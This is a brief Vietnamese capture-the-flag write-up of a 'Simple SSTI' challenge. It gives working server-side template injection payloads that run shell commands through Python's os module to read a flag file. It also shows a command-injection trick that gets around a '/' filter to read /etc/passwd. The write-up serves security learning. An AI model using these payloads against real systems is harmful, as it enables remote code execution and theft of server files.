





# Simple SSTI



Như tiêu đề thì bài này liên quan đến ssti, tuy nhiên phải thử thì mới biết được nó dùng thư viện nào.



Nhìn như này thì khả năng cao được viết bằng python, vì vậy mình tiến hành đi test các payload

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



Và giờ mình chỉ cần đọc flag là được

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```



Tuy nhiên lại không đọc được, sau khi mình thử mấy lần thì thấy khả năng cao là '/' không được chấp nhận, nên mình tìm cách bypass

```
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

Đoạn này sẽ giúp chúng ta bypass được dấu /, liên quan tới command injection

Chall này khá hay kết hợp cả ssti và cmli bypass



Source reference:

https://viblo.asia/p/server-side-template-injection-vulnerabilities-ssti-cac-lo-hong-ssti-phan-2-qPoL775jLvk